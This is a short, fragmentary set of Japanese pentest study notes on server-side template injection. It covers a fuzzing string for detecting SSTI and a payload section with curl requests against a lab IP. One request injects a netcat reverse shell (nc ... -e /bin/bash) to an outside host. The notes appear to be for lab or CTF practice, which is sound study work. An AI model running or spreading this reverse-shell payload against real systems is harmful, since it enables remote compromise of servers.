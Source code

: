 ## ## SSTIの理解
 - SSTIは、SSTIを見つけようとしないと見過ごされやすい脆弱性である。

### ### SSTIの見つけ方
 - 特殊文字の列挙(テンプレートファジング)をするのが一般的。
```sh
${{<%[%'"}}%\
```
->注意:SSTIは2つの異なるこん

--- 
![[Pasted image 20250524180648.png]]
- 上記のような{}が出力されているときは、SSTIを疑ってよい

## ## Payload
```
curl -i http://192.168.237.117:50000/verify -X POST --data 'code=5*5'
curl -i http://192.168.243.117:50000/verify -X POST --data 'code=os.system("nc 192.168.45.154 18000 -e /bin/bash")'
```
※参考サイト
[https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys);

---
## ## Enumeration
### ### wordbruteforce
```sh
ffuf 
```

